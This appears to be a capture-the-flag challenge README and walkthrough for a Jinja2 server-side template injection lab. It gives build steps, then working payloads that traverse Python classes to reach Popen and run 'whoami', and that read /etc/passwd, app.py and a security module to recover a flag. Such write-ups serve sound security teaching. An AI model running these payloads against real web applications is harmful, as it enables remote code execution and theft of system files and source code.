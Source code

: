 # Injection challenge
Invalid use of Jinja2 templates results in server side template injection, that leads to RCE.
# 1. DEPLOY
Build image with
```
make build
```

Create and run container in the background (default port 80/tcp)
```
make
```
Sometimes the startup will fail because of PIDs limit in that case just rerun a few times
```
make clean; make
```

# 2. IDENTIFY VULNARABILITY
Navigate to webpage. When trying to login into the app we get "not found" error page. SQL Injection is apparently not the way it this time.
With exploring the headers we identify Waitress WSGI server which is popular Python WSGI HTTP server.

We spot that the path is included into error page content.
If we try to navigate to
```
/login{{ 7+7 }}
```
we get error "Oops! Page login14 doesn't exist :("
That means the path is not escaped properly and we can perform server side template injection.

# 3. EXPLOIT
First step we dump config items with
```
{{ config }}
```
but there is nothing useful, just message 'You are getting closer!', that tells us we are barking at the correct tree.

Then we dump all loaded classes with
```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```
and find that Popen is loaded and it is at index 414. Let use it to find our identity
```
{{ ''.__class__.__mro__[1].__subclasses__()[414]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}
```
Shit! We get "Internal Server Error", because the container is running with ```--pids-limit=6``` and
five threads are used by Waitress and one by init process. So Popen cannot fork to create new process. This is a no go.

With some googling we find [this page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) with SSTI payloads.
Because Popen is not working, the next idea is to read remote file. Try to read ```/etc/password```
```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
We do not get Internal Server Error which is good sign, but we still cannot read the file.
This is because of some naive blacklisting. Let us try to read a file that is in current directory.
Jinja2 is commonly used with Flask and Flask applications usually have the main file named ```app.py```.
Let's try to read this file.
```
{{ get_flashed_messages.__globals__.__builtins__.open("app.py").read() }}
```
It's working! We get the content of the file. Inspect the content.

The content shows us that there is some TODO code commented out. This code is for login endpoint
and it uses ```validate_login``` function that is imported from ```lib/security```.
We try to read this ```security.py``` file in ```lib``` directory
```
{{ get_flashed_messages.__globals__.__builtins__.open("lib/security.py").read() }}
```
and get the content of it.

In this file we see variable ```valid_password``` and with further inspection of the code we find that this is just
inversed base64 encoded string. We decode it and get the flag.

